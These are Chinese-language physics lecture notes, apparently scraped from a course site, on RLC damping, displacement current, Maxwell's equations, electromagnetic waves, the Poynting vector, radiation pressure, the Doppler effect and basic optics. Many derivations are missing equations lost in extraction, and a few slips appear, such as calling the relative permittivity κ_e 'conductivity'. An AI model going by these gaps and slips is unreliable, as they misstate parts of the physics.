 Discharging |
当 $ \lambda^2 = \frac{b^2}{4ac} = \cfrac{R^2}{4L \cdot \cfrac{1}{C} } = \frac{R^2 C}{4L} > 1 $ 时，电路为过阻尼电路，电路不会发生电磁震荡，电荷 \(q\) 随时间的变化为 $$ q = e^{-\frac{R}{2L} t} (Ae^{ \sqrt{ \frac{R^2}{4L^2} - \frac{1}{LC} } t } + Be^{ -\sqrt{ \frac{R^2}{4L^2} - \frac{1}{LC} } t }) + C\varepsilon $$
|  Charging |
 Discharging |
当 $ \lambda^2 = \dfrac{R^2 C}{4L} = 1 $ 时，为临界阻尼，也不会发生电磁震荡，并且此时电荷变化的速度最快。 $$ q = e^{-\frac{R}{2L} t} (A + Bt) + C\varepsilon $$
临界阻尼的图像与过阻尼相似，但是电荷变化的速度更快。

当 $ \lambda^2 = \dfrac{R^2 C}{4L} < 1 $ 时，电路为欠阻尼电路，电路会发生阻尼震荡，做振幅不断减小的振动 $$ \beta = i\omega = i\sqrt{\frac{1}{LC} - \frac{R^2}{4L^2}} = i\sqrt{\omega_0^2 - \frac{R^2}{4L^2}} $$
电荷 \(q\) 随时间的变化为 $$ q = q_m e^{-\frac{R}{2L} t} (\cos \omega t + \varphi) + C\varepsilon $$ 其中角频率 \(\omega = \sqrt{\omega_0^2 - \frac{R^2}{4L^2}} = \sqrt{\frac{1}{LC} - \frac{R^2}{4L^2}}\) 当 \(R\) 很小时，\(\omega \approx \sqrt{\frac{1}{LC}} = \omega_0\)
受迫振动¶

类似于简谐振动中的受迫振动，当 RLC 电路中有交流电源时，电路中的电流和电荷会受到周期性的外力作用，从而产生受迫振动。
当 $ \omega'' = \omega $ 时，即外加的交流电源频率与 RLC 电路的固有频率相同时，电路中的电流和电荷会达到最大值（共振）。
麦克斯韦方程组与电磁波¶
约 6388 个字 21 张图片 预计阅读时间 26 分钟
一些我们已经学过的公式
在真空中：
- 电场的高斯定理：$$ \oiint \overrightarrow{E}·d\overrightarrow{A} = \frac{q_0}{\epsilon_0} $$
- 磁场的高斯定理：$$ \oiint \overrightarrow{B}·d\overrightarrow{A} = 0 $$
- 法拉第电磁感应定律：$$ \oint \overrightarrow{E}·d\overrightarrow{l} = -\frac{d\Phi_B}{dt} = -\iint \frac{ \partial \overrightarrow{B} }{ \partial t } \cdot \overrightarrow{A} $$
- 安培环路定理：$$ \oint \overrightarrow{B} \cdot \overrightarrow{l} = \mu_0 i $$
在电介质或磁材料中： $$ \begin{cases} \displaystyle\oiint \overrightarrow{D}·d\overrightarrow{A} = q_0 \\\\ \displaystyle\oiint \overrightarrow{B}·d\overrightarrow{A} = 0 \\\\ \displaystyle\oint \overrightarrow{E}·d\overrightarrow{l} = -\iint \frac{ \partial \overrightarrow{B} }{ \partial t } \cdot \overrightarrow{A} \\\\ \displaystyle\oint \overrightarrow{H}·d\overrightarrow{l} = i_0 = \displaystyle\iint \overrightarrow{j} \cdot \overrightarrow{A} \end{cases} $$
其中 $$ \overrightarrow{D} = \epsilon_0 \overrightarrow{E} + \overrightarrow{P} = \kappa_e \epsilon_0 \overrightarrow{E} $$ $$ \overrightarrow{B} = \mu (\overrightarrow{H} + \overrightarrow{M}) = \kappa_m \mu_0 \overrightarrow{H} $$ $$ \overrightarrow{j}_0 = \sigma \overrightarrow{E} $$
对称性原则¶
很自然的，科学家们希望所有的物理公式都具有一种对称性，这样才能更好地描述自然界的规律。观察上面磁场的高斯定律，我们显然不希望等式的右侧只有一个0；对于电场的安培环路定律，我们也希望它能与磁场的安培环路定律具有一种对称的相似性，
因此我们引入了一个新的定义：磁荷 \(q_m\) ，即只带有正极或负极的磁单极（类比于点电荷）。这样，我们就可以得到磁场的高斯定律和电场的环路定理做出修正：
感应磁场与位移电流¶
 借助磁场的环路定理和 stokes 公式，我们可以知道，通过一个环路的电流大小等于通过以这个环路为边界的曲面电流密度的积分
借助磁场的环路定理和 stokes 公式，我们可以知道，通过一个环路的电流大小等于通过以这个环路为边界的曲面电流密度的积分
如右图，电流通过蓝色的回路，以蓝色回路为边缘构造两个曲面 \(S_1\) 和 \(S_2\)，则通过这两个曲面的电流大小相等，方向相反
上面公式的物理含义是，通过一个闭合曲面的电流恒等于零（流入的电流等于流出的电流），
但是这样的结论在讨论一个电容器的充电时则会出现问题。

对于（1，2）构成的闭合曲面以及（1，4）构成的闭合曲面，其内部的电流之和为零。但当我们选择曲面（1，3）时，就发现电流从曲面1进入，但并没有从曲面3流出，这就说明我们上面的结论存在问题。
为了解决这个问题，我们引入了位移电流 \(I_D\) 的概念。位移电流是由于电场的变化而产生的，它的大小与电场的变化率成正比，方向与电场的变化方向相同。 $$ \oint \overrightarrow{H} \cdot d\overrightarrow{l} = I_{free} + I_D $$
但是位移电流的概念是怎么得到的呢？我们可以从下面的推导中看到：
首先考虑（1，3）构成的曲面 \(S\)，电流只进入不流出 $$ \oiint_S \overrightarrow{j}_0 \cdot d\overrightarrow{A} = -\dfrac{dq_0}{dt} $$ 又根据高斯定律， $$ \oiint_S \overrightarrow{D} \cdot d\overrightarrow{A} = q_0 $$ 于是 $$ \dfrac{dq_0}{dt} = \dfrac{d}{dt} \oiint_S \overrightarrow{D} \cdot d\overrightarrow{A} = \oiint_S \dfrac{\partial \overrightarrow{D}}{\partial t} \cdot d\overrightarrow{A} $$
此时在曲面1进入的量等于从曲面3流出的量，即
考虑到电位移矢量与磁感应强度的对称关系，我们也可以定义一个类似于磁通量的物理量：电位移通量
Info
电位移通量 $$ \Phi_D = \iint \overrightarrow{D} \cdot d\overrightarrow{A} $$ 位移电流 $$ I_D = \dfrac{d\Phi_D}{dt} = \iint \dfrac{\partial \overrightarrow{D}}{\partial t} \cdot d\overrightarrow{A} $$ 位移电流密度 $$ \overrightarrow{j}_D = \dfrac{\partial \overrightarrow{D}}{\partial t} $$
综合以上的内容，我们就得到了新的安培环路定理： $$ \oint \overrightarrow{H} \cdot d\overrightarrow{l} = i_0 + i_D = \iint \left( \overrightarrow{j}_0 + \dfrac{\partial \overrightarrow{D}}{\partial t} \right) \cdot d\overrightarrow{A} $$
根据 stokes 公式，我们可以得到
于是 $$ \nabla \times \overrightarrow{H} = \overrightarrow{j}_0 + \dfrac{\partial \overrightarrow{D}}{\partial t} $$
Example

充电时，两个电极板之间的位移电流的大小等于导线中电流的大小，这样就使得整个电路中的电流是“连续”的。
充满电之后，\(i_0 = i_D = 0\)


当电极板之间是真空（没有电介质）时
于是从最后一个式子我们可以知道：变化的电场会产生一个涡旋的磁场（eddy magnetic field）。
Tip
电场的变化会产生涡旋磁场，磁场的变化会产生涡旋电场。
但磁场变化时由于楞次定律的存在，涡旋电场的方向与磁场变化的方向相反（有负号）；而电场变化时，涡旋磁场的方向与电场变化的方向相同（无负号）。
经过上面的讨论和拓展后，我们就得到了麦克斯韦方程组：
麦克斯韦方程组
在真空中：
- 电场的高斯定理：$$ \oiint \overrightarrow{E}·d\overrightarrow{A} = \frac{q_0}{\epsilon_0} $$
- 磁场的高斯定理：$$ \oiint \overrightarrow{B}·d\overrightarrow{A} = 0 $$
- 法拉第电磁感应定律：$$ \oint \overrightarrow{E}·d\overrightarrow{l} = -\frac{d\Phi_B}{dt} = -\iint \frac{ \partial \overrightarrow{B} }{ \partial t } \cdot \overrightarrow{A} $$
- 安培环路定理（被麦克斯韦拓展）：$$ \oint \overrightarrow{B} \cdot \overrightarrow{l} = \mu_0 i + \mu_0 \epsilon_0 \iint \frac{ \partial \overrightarrow{E} }{ \partial t } \cdot \overrightarrow{A} $$
在电介质或磁材料中： $$ \begin{cases} \displaystyle\oiint \overrightarrow{D}·d\overrightarrow{A} = q_0 \\\\ \displaystyle\oiint \overrightarrow{B}·d\overrightarrow{A} = 0 \\\\ \displaystyle\oint \overrightarrow{E}·d\overrightarrow{l} = -\iint \frac{ \partial \overrightarrow{B} }{ \partial t } \cdot \overrightarrow{A} \\\\ \displaystyle\oint \overrightarrow{H}·d\overrightarrow{l} = i_0 + \frac{ \partial \overrightarrow{D} }{ \partial t } \cdot \overrightarrow{A} \end{cases} $$
其中 $$ \overrightarrow{D} = \epsilon \overrightarrow{E} + \overrightarrow{P} = \kappa_e \epsilon_0 \overrightarrow{E} $$ $$ \overrightarrow{B} = \mu (\overrightarrow{H} + \overrightarrow{M}) = \kappa_m \mu_0 \overrightarrow{H} $$ $$ \overrightarrow{j}_0 = \sigma \overrightarrow{E} $$
电磁波¶
电磁波的传播¶
- 电磁波的传播不需要介质，可以在真空中传播

- 变化的磁场会产生涡旋的电场：$$ \oint \overrightarrow{E} \cdot d\overrightarrow{l} = -\iint \dfrac{\partial \overrightarrow{B}}{\partial t} \cdot d\overrightarrow{A} $$
-
变化的电场会产生涡旋的磁场：$$ \oint \overrightarrow{H} \cdot d\overrightarrow{l} = \iint \frac{\partial \overrightarrow{D}}{\partial t} \cdot d\overrightarrow{A} $$
假如由于感应产生的电场和磁场的都在不断变化，那么就会形成”一串“不断传播的电磁场，这就是电磁波。

Note
在自由空间（真空）中， $$ \rho_{e0} = 0, \quad \overrightarrow{j}_0 = 0 $$ 在自由空间中传播的电磁波具有以下 5 条性质：
-
电磁波是横波，电场和磁场均垂直于传播方向 \(\overrightarrow{E} \perp \overrightarrow{k}, \quad \overrightarrow{H} \perp \overrightarrow{k}\)

-
电场和磁场始终相互垂直 \(\overrightarrow{E} \perp \overrightarrow{H}\)
-
\(E\) 与 \(H\) 同相位

-
\(\sqrt{\kappa_e \epsilon_0} E_0 = \sqrt{\kappa_m \mu_0} H_0\)
-
电磁波的传播速度为：$$ v = \frac{1}{\sqrt{\kappa_e \epsilon_0 \kappa_m \mu_0}} $$
在真空中，\(\kappa_e = \kappa_m = 1\)，所以 $$v = \dfrac{1}{\sqrt{\epsilon_0 \mu_0}} = c = 3 \times 10^8 m/sLV $$
从麦克斯韦方程组到电磁波¶
我们利用麦克斯韦方程组推导出一些电磁波的性质：
根据向量点乘与叉乘的含义，我们可以把右侧的式子进行展开
首先假设一个点波源，它发出的电磁波就是一个球面，在很远处的自由空间中，取一个较小的弧面，这个弧面的电磁波可以近似认为是一个平面波。以电磁波传播的方向为\(z\)轴，电场和磁场所在方向分别为\(x\)轴和\(y\)轴。

将上面得到的式子展开，那么就可以得到以下8个方程：
接下来我们将使用这些方程来推导电磁波的5条性质。
横波¶
首先我们知道电场强度 \(E\) 在\(x\)和\(y\)方向上的分量都与\(x\)和\(y\)无关，仅与\(z\)和时间\(t\)有关，磁场强度 \(H\) 也是如此，因此 $$ \dfrac{\partial E_x}{\partial x} = \dfrac{\partial E_y}{\partial y} = \dfrac{\partial E_x}{\partial y} = \dfrac{\partial E_y}{\partial x} = 0 $$ $$ \dfrac{\partial H_x}{\partial x} = \dfrac{\partial H_y}{\partial y} = \dfrac{\partial H_x}{\partial y} = \dfrac{\partial H_y}{\partial x} = 0 $$ 把它们带入上面的方程中，就有
因此电场强度和磁场强度在\(z\)方向的分量\(E_z, H_z\)与空间和时间都无关，是一个常数，我们不妨将它们都设为0，即\(E_z = H_z = 0\)。
于是我们就得到 \(\overrightarrow{E}\) 和 \(\overrightarrow{H}\) 都与传播方向垂直 $$ \overrightarrow{E} \perp \overrightarrow{k}, \quad \overrightarrow{H} \perp \overrightarrow{k} $$
电场与磁场相互垂直 \(\overrightarrow{E} \perp \overrightarrow{H}\)¶
利用刚刚得到的 \(E_z = H_z = 0\)，再重新带入方程组中，我们有
由于\(x\)轴和\(y\)轴是可以任意定义的，那么我们不妨设电场\(\overrightarrow{E}\)的方向为\(x\)轴的方向，于是 $$ \overrightarrow{E} \parallel \text{x axis} \quad \Rightarrow \quad E_x \neq 0, E_y = 0 $$
再把它带入上面的（2-1）和（4-2）中，就有
这说明此时磁场强度\(\overrightarrow{H}\)的方向沿着\(y\)轴，于是就说明了电场强度\(\overrightarrow{E}\)和磁场强度\(\overrightarrow{H}\)始终相互垂直。 $$ \overrightarrow{E} \perp \overrightarrow{H} $$
波动方程¶

下面我们来推导电磁波剩余的3条性质。
对上面四个方程中（2-2）的两边对\(t\)求偏导，有 $$ \frac{\partial^2 E_x}{\partial z^2} = -\kappa_m \mu_0 \frac{\partial}{\partial t} \cdot \frac{\partial H_y}{\partial z} = \kappa_m \mu_0 K_e \epsilon_0 \frac{\partial^2 E_x}{\partial t^2} $$
同理我们可以对（4-1）两边做相同的操作，就与就得到以下两个方程：
对于这两个方程，我们可以猜测他们的根具有如下的形式：
其中 \(\omega=\frac{2\pi}{T}\) 是角频率，\(k=\dfrac{2\pi}{\lambda}\) 是波数，\(\lambda\) 是波长。
带入上面的方程中，得到
又因为 \(v = \dfrac{\lambda}{T} = \dfrac{\omega}{k}\)，所以
并且在真空中，磁导率 \(\kappa_m = 1\)，电导率 \(\kappa_e = 1\)，带入数据计算后发现 \(v = \dfrac{1}{\sqrt{ \epsilon_0 \mu_0}} = 3 \times 10^8 m/s = c\)。
因此我们就证明了上面提到的电磁波的第5条性质，并且还推测光也是一种电磁波。
Tip
我们在中学中已经学到过，光在非真空的介质中传播速度为 \(v = \dfrac{c}{n}\)，其中 \(n\) 是介质的折射率，\(c\) 是真空中的光速。对比上面的式子，我们发现 $$ v = \dfrac{1}{\sqrt{\kappa_e \epsilon_0 \kappa_m \mu_0}} = \dfrac{c}{\sqrt{\kappa_e \kappa_m}} $$ 因此我们可以得到折射率实际上就是 $$ n = \sqrt{\kappa_e \kappa_m} $$
进一步地，我们将上面的试探解带入式（2-2）$ \dfrac{\partial E_x}{\partial z} = -\kappa_m \mu_0 \dfrac{\partial H_y}{\partial t} $ 中，就有
那么我们就利用波动方程一次性证明了第3和第4条性质
!!! note “真空中 \(E\) 与 \(B\) 的关系” 在真空中，\(\kappa_e = \kappa_m = 1\)，所以 $$ \sqrt{\varepsilon_0} E_0 = \sqrt{\mu_0} H_0 $$ $$ E_0 = \dfrac{\mu_0 H_0}{\sqrt{\varepsilon_0 \mu_0}}=cB_0 $$ 或者 $$ B_0 = \dfrac{E_0}{c} $$
1 | |
电磁波的能流密度和动量¶
电磁波的能流密度¶

电磁波的能量包括电场和磁场两部分 $$ U = \iiint \left( \dfrac{1}{2} \varepsilon_0 E^2 + \dfrac{1}{2} \dfrac{B^2}{\mu_0} \right) dv $$
上面的式子仅对于真空中的电磁波有效，对于更一般的情况 $$ U = U_E + U_B = \iiint \left( \dfrac{1}{2} \varepsilon_0 E^2 + \dfrac{1}{2} \dfrac{B^2}{\mu_0} \right) dv $$
接下来我们考虑电磁波的能量随时间变化的速率
为了更好地分析，我们可以把被积分的式子展开
化简整理到这一步之后，我们可以回忆麦克斯韦方程组
带入上式后就得到
上面最后一步的化简我们使用了下面这个公式 $$ \overrightarrow{E} \cdot (\nabla \times \overrightarrow{H}) - \overrightarrow{H} \cdot (\nabla \times \overrightarrow{E}) = - \nabla \cdot (\overrightarrow{E} \times \overrightarrow{H}) $$
最后利用高斯定律再次对整个式子进行整理
化简方程右边的第二项¶
下面我们来看看上式中第二项 $ \displaystyle\iiint (\overrightarrow{j}_0 \cdot \overrightarrow{E}) dv $ 具体是什么

根据欧姆定律的微分形式，我们知道 $$ \overrightarrow{j}_0 =\sigma (\overrightarrow{E}+\overrightarrow{K}) $$ $$ \therefore \overrightarrow{E}=\dfrac{1}{\sigma} \overrightarrow{j}_0 - \overrightarrow{K} = \rho\overrightarrow{j}_0 - \overrightarrow{K} $$
所以
在这里，\(Q\) 代表的是电流由于电阻发热的功率，\(P\) 是电源提供的功率。
玻印廷矢量（Poynting vector）¶
我们也可以对方程的第一项进行化简，我们引入一个新的矢量：玻印廷矢量（Poynting vector）\(\overrightarrow{S}\)，定义为 $$ \overrightarrow{S} = \overrightarrow{E} \times \overrightarrow{H} $$
那么我们最终将上面的方程化简为 $$ \dfrac{dU}{dt} = - \iint \overrightarrow{S} \cdot d\overrightarrow{A} - \iiint (\overrightarrow{j}_0 \cdot \overrightarrow{E}) dv $$
其中，$ \displaystyle \iint \overrightarrow{S} \cdot d\overrightarrow{A} $ 表示表面积为 \(A\) 的面积上电磁波在单位时间内向外辐射出的能量，称为电磁波能量通量
Poynting Vector
- \(\overrightarrow{S}\) 的方向是电磁波传播的方向
- \(\overrightarrow{S}\) 大小的均值就是电磁波在单位时间内通过单位面积的能量
$$ S = \dfrac{EB}{\mu_0} = \dfrac{E^2}{\mu_0 c} = \dfrac{E^2}{Z_0} = \dfrac{E^2}{377 \Omega} $$ 其中 \(Z_0 = \mu_0 c = 377 \Omega\) 是真空中的特征阻抗
电磁波的强度就是玻印廷矢量在时间和空间上的均值（单位时间、单位面积），单位为瓦特每平方米（W/m²）
电磁波的能量密度¶
我们知道电场的能量密度和磁场的能量密度分别为 $$ u_E = \dfrac{1}{2} \varepsilon_0 E^2, \quad u_B = \dfrac{1}{2} \dfrac{B^2}{\mu_0} $$
而在电磁波中，\(B=\dfrac{E}{c}\)，于是 $$ u_B = \dfrac{1}{2} \dfrac{B^2}{\mu_0} = \dfrac{1}{2} \dfrac{E^2}{\mu_0 c^2} = \dfrac{1}{2} \dfrac{E^2}{\mu_0 \dfrac{1}{\varepsilon_0 \mu_0}} = \dfrac{1}{2} \varepsilon_0 E^2 = u_E $$
这说明电磁波中电场和磁场的能量密度是相等的，因此电磁波的总能量密度为
上面提到过，在实际的实验中 \(E\) 要比 \(B\) 大很多，更容易测量，因此我们在这里用 \(E\) 来表示电磁波总的能量密度。
通常来说，我们更关注电磁波的平均能量密度， $$ \left< u \right> = \varepsilon_0 \left< E^2 \right> = \varepsilon_0 E_{max}^2 \left< sin^2(kz - \omega t) \right> = \dfrac{\varepsilon_0 E_{max}^2}{2} $$
这时我们可以引入电场强度的均方根，\(E_{rms} = \dfrac{E_{max}}{\sqrt{2}}\)，那么电磁波的平均能量密度就可以表示为 $$ \left< u \right> = \dfrac{\varepsilon_0 E_{max}^2}{2} = \varepsilon_0 E_{rms}^2 $$
回顾我们上面对波的强度的定义，\(I\) 可以被定义 为单位面积上的平均功率 = 平均能量密度乘以波的传播速度，即

最后得到的结果依然和我们之前的定义相同！
Example

电路中的能量传输¶
🐯：小心我拿这个出题考你们


- 对于如上图的一个直流电路，我们知道在电源中电场 \(E\) 由正极指向负极，电流方向恰好相反，而磁场强度 \(H\) 的方向由电流方向决定，根据右手定则，我们可以发现 \(S\) 的方向是沿电源的径向向外的。
-
对于与正极相连的导线，在导线的内部有一个由电源提供的电场，方向与导线平行，根据右手定则，我们可以发现 \(S\) 的方向是沿导线的径向向内；
而在导线的外表面，除了电源提供的电场之外，由于外表面还有正电荷，因此总的电场是向导线外倾斜着的，于是 \(S\) 的除了具有径向向里的分量之外，还有沿着电流方向的分量。因此我们可以知道能量流动的方向：一方面沿着导线流向电阻，另一方面被导线的电阻消耗
假如导线是超导体的话，能量就不会被导线所消耗，所有的能量都会流向电阻
-
对于与负极相连的导线，我们可以得到类似的分析：
导线内部的 \(S\) 是沿径向向内的；而导线外表面的 \(S\) 除了有径向向外的分量之外，还有逆着电流方向的分量
于是最终分析得到的 \(S\) 的方向就和第一张图中箭头的方向一致，即能量从电源流向电阻。
电磁波的动量与辐射压强¶

当电磁波传播到一个物体上时，根据 \(\overrightarrow{j}_0 = \sigma \overrightarrow{E}\)，我们可以知道产生的电流方向与电磁波的电场方向一致。这个物体中电子收到的力为 $$ \overrightarrow{f}_L = -e \overrightarrow{v} \times \overrightarrow{B} = -\mu_0 e \overrightarrow{v} \times \overrightarrow{H} $$
因此物体会受到一个沿电磁波传播方向的力，而电磁波也会收到一个相反方向的力，所以电磁波会被反射回去
力 \(\Delta F\) 在面积为 \(\Delta A\) 的表面上做的功等与电磁波减少的能量
于是
电磁波作用在物体上的压强为
电磁波的动量变化为
于是单位体积内的动量变化为
其中 \(\overrightarrow{g}_{in}=\dfrac{1}{c^2} \overrightarrow{S}_{in}\) 为入射光的动量密度，\(\overrightarrow{g}_{out}=\dfrac{1}{c^2} \overrightarrow{S}_{out}\) 为反射光的动量密度
电磁波的动量密度为 $$ \overrightarrow{g} = \dfrac{1}{c^2} \overrightarrow{S} = \dfrac{1}{c^2} (\overrightarrow{E} \times \overrightarrow{H}) $$
光压¶
因为光就是一种电磁波，所以光照射在物体上也会有压力作用，称之为光压
- 对于黑体（吸收所有的光）来说，光压的大小为 $ P = \dfrac{1}{c} \left| \overrightarrow{S}_{in} \right| = \dfrac{1}{c} EH $
- 对于白体（反射所有的光）来说，光压的大小为 $ P = \dfrac{2}{c} \left| \overrightarrow{S}_{in} \right| = \dfrac{2}{c} EH $
Example

光学¶
约 3088 个字 23 张图片 预计阅读时间 12 分钟
可见光¶

可见光
- 可见光波长范围：\(400nm - 700nm\)
- 可见光频率范围：$7 \times 10^{14} Hz - 4 \times 10^{14} Hz $
- 波长与频率对应的关系：\(\lambda f = c\)
- 人眼最敏感的可见光波长为\(550nm\)左右，为黄绿光
- 波长越长，则频率越低、能量越低，因此红光能量最低，紫光能量最高
波的多普勒效应¶
多普勒效应
其中 \(v_0\) 表示观测者的运动速度，\(v_s\) 表示波源的运动速度
对于光波来说，需要使用相对论多普勒效应 $$ f = f_0 \dfrac{ \sqrt{1 - \dfrac{u^2}{v^2} } }{ 1+\dfrac{u}{v} \cos\theta } $$
其中 \(f_0\) 是在波源保持静止的参考系中测得的频率，\(\theta\) 是相对运动方向与光波传播方向的夹角
-
横向（transverse）多普勒效应：\(\theta = \dfrac{\pi}{2}\)
\[ f = f_0 \sqrt{1 - \dfrac{u^2}{v^2} } \] -
纵向（longitudinal）多普勒效应：
-
波源靠近 \(\theta = \pi\): $$ f = f_0 \sqrt{\dfrac{1+\frac{u}{c}}{1-\frac{u}{c}}} $$
-
波源远离 \(\theta = 0\)
\[ f = f_0 \sqrt{\dfrac{1-\frac{u}{c}}{1+\frac{u}{c}}} \]
-
对于光波，会出现红移和蓝移现象
-
红移：光源和观察者彼此远离，频率减小，波长增大，光谱向红光靠近 $$ f = f_0 \sqrt{\dfrac{1-\frac{u}{c}}{1+\frac{u}{c}}} $$
-
蓝移：光源和观察者彼此接近，频率增大，波长减小，光谱向蓝光靠近 $$ f = f_0 \sqrt{\dfrac{1+\frac{u}{c}}{1-\frac{u}{c}}} $$
几何光学¶
Info
-
几何光学：在光沿直线传播的情况下讨论问题，遇见的物体大小远大于光的波长\(\lambda\)
mirrors(反射镜)， lenses(透镜)， prisms(棱镜)
-
物理光学：光的传播通过狭缝或是遇见的物体尺寸非常小，足以和光的波长\(\lambda\)相比，需要考虑波动性
reflection(反射)， refraction(折射)， interference(干涉)， diffraction(衍射)， polarization(偏振)
几何光学三定律
- 光沿直线传播：光在均匀介质中沿直线传播
- 光的反射定律：反射角等于入射角
-
光的折射定律：折射角、入射角和折射率之间存在如下关系
